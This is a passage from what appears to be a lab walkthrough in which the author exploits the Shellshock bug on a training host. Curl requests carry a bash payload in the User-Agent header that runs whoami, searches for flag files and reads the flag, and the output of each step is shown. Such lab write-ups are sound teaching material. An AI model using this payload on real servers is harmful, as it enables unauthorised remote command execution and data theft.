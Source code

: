 ```
|       http://seclists.org/oss-sec/2014/q3/685
|_      http://www.openwall.com/lists/oss-security/2014/09/24/10
MAC Address: 02:42:C0:9C:BE:06 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.72 seconds
```

Great! We have successfully executed the command on the server and received an output.

**Step 4**.

`curl http://demo4.ine.local/browser.cgi -H "User-Agent: () { :; }; echo; /bin/bash -c 'whoami'"`:
```
daemon
```

`curl http://demo4.ine.local/browser.cgi -H "User-Agent: () { :; }; echo; /bin/bash -c 'find / -type f -iname "flag*"'"`:
```
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu10/domain0/flags
/proc/sys/kernel/sched_domain/cpu11/domain0/flags
/proc/sys/kernel/sched_domain/cpu12/domain0/flags
/proc/sys/kernel/sched_domain/cpu13/domain0/flags
/proc/sys/kernel/sched_domain/cpu14/domain0/flags
/proc/sys/kernel/sched_domain/cpu15/domain0/flags
/proc/sys/kernel/sched_domain/cpu5/domain0/flags
/proc/sys/kernel/sched_domain/cpu6/domain0/flags
/proc/sys/kernel/sched_domain/cpu7/domain0/flags
/proc/sys/kernel/sched_domain/cpu8/domain0/flags
/proc/sys/kernel/sched_domain/cpu9/domain0/flags
/tmp/flag ←
/tmp/files/bash-4.3/flags.c
/tmp/files/bash-4.3/flags.o
/tmp/files/bash-4.3/flags.h
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html.fr
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html.en
/tmp/files/httpd-2.4.6/docs/manual/rewrite/flags.html
/opt/apache/manual/rewrite/flags.html.fr
/opt/apache/manual/rewrite/flags.html.en
/opt/apache/manual/rewrite/flags.html
```

`curl http://demo4.ine.local -H "User-Agent: () { :; }; echo; /bin/bash -c 'cat /tmp/flag'"`:
```
13a2c4660c0b48df3ff87fb2981516f3
```

**Step 5**.

`ip addr | grep "inet"`:
```
inet 127.0.0.1/8 scope host lo
inet 10.1.0.16/16 brd 10.1.255.255 scope global eth0
inet 192.10.68.2/24 brd 192.10.68.255 scope global eth1
```
